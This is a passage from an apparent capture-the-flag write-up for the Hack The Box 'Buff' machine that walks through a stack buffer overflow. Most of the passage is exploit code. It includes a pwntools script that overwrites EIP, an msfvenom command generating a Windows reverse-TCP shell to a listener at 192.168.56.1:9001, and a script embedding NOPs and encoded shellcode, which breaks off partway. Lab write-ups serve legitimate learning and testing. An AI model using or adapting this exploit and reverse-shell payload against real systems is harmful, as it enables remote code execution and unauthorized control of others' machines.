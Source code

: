 
![Desktop View](/img/htb/buff/instructions_1.png)


I add those instructions to the script in the eip variable.

```python
from pwn import *

context(arch="i386",os="linux")

def exploit():
    
    buffer = b"\x55" * 1052
    
    eip = p32(0x0040D7ED)
    
    payload = buffer + eip

    conn = remote(host,port)
    conn.sendline(payload)
    conn.close()
    print("[+] Payload sent")
    
if __name__ == '__main__':
    exploit()    

```


#### creating shellcode

I create a shellcode with msfvenom removing the badchars and configured to connect to my vboxnet0 interface ip (192.168.56.1) which is where I am debugging.

``` bash
$ msfvenom -p windows/shell_reverse_tcp lhost=192.168.56.1 lport=9001 -b "\x00\x0a\x0d\xff" -f py -v shellcode EXITFUNC=thread
```

I add the generated shellcode to my exploit and add some nops to it so the program will have time to execute the shellcode
```python
from pwn import *

context(arch="i386",os="linux")

def exploit():
    
    buffer = b"\x55" * 1052
    eip = p32(0x0040D7ED)
    
    nops = b"\x90" * 32

    shellcode =  b""
    shellcode += b"\xdb\xdf\xd9\x74\x24\xf4\xba\x4e\x4a\x17\xbe"
    shellcode += b"\x58\x31\xc9\xb1\x52\x31\x50\x17\x83\xc0\x04"
    shellcode += b"\x03\x1e\x59\xf5\x4b\x62\xb5\x7b\xb3\x9a\x46"
    shellcode += b"\x1c\x3d\x7f\x77\x1c\x59\xf4\x28\xac\x29\x58"
    shellcode += b"\xc5\x47\x7f\x48\x5e\x25\xa8\x7f\xd7\x80\x8e"
    shellcode += b"\x4e\xe8\xb9\xf3\xd1\x6a\xc0\x27\x31\x52\x0b"
```